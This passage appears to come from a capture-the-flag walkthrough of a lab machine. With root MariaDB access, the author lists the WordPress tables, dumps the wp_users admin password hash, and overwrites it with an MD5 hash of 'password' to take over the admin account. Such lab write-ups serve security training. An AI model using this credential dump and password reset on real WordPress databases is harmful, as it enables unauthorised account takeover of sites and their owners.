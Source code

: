 Use the _wordpress_db_ database and list tables.

```bash
MariaDB [(none)]> use wordpress_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

showDatabase changed
MariaDB [wordpress_db]> show tables;
+------------------------+
| Tables_in_wordpress_db |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_sp_polls            |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+
13 rows in set (0.058 sec)

```

Select all rows in the _wp_users_ table

```bash
MariaDB [wordpress_db]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.062 sec)

```

We have root access to the _wp_users_ table and can change the admin password to an MD5 hash.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ echo -n password | md5sum
5f4dcc3b5aa765d61d8327deb882cf99  -

# Change the admin user password to the MD5 hash above

MariaDB [wordpress_db]> UPDATE wp_users SET user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.059 sec)
Rows matched: 1  Changed: 1  Warnings: 0

# Validate the admin user hash has changed to the value we set

MariaDB [wordpress_db]> select * from wp_users;
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
```